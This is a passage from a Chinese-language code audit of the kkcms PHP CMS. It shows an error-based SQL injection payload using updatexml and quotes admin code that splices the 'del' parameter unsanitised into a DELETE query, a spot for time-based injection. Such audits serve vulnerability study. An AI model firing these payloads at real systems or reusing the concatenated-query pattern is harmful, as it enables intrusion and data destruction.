 使用语句：

```sql
' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) and '
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4416.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4417.png)

### kkcms-delete延时

全局搜索delete，发现有删除相关代码：文件路径为：admin/model/usergroup.php。

直接对usergroup.php进行访问。发现返回的空白（后台漏洞，需要先登录）。

由于usergroup.php只有后端页面，并没有对应前端数据显露，所以应继续使用该文件名搜索，查看是否有包含其的前端页面，进行匹配。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4419.png)

接下来就对/admin/cms_usergroup.php进行访问，发现返回了正常页面。

因为主要处理的代码还是在usergroup.php中，所以需要在其中寻找表，代码如下：

```php
// usergroup.php
<?php

if ($_GET['del'] == 1) {
	alert_back('默认会员组不能删除！');
} else {
	if (isset($_GET['del'])) {
		$sql = 'delete from xtcms_user_group where ug_id = ' . $_GET['del'] . '';
		if (mysql_query($sql)) {
			alert_href('删除成功!', 'cms_usergroup.php');
		} else {
			alert_back('删除失败！');
		}
	}
}
if (isset($_POST['save'])) {
	null_back($_POST['ug_name'], '请填写名称');
	$data['ug_name'] = $_POST['ug_name'];
	$str = arrtoinsert($data);
	$sql = 'insert into xtcms_user_group (' . $str[0] . ') values (' . $str[1] . ')';
	if (mysql_query($sql)) {
		alert_href('添加成功!', 'cms_usergroup.php');
	} else {
		alert_back('添加失败!');
	}
}
```

由于浏览器使用延时注入，没有回显时间，不好判断，所以使用抓包软件burp，或者有能力的话可以使用python写脚本来判断。
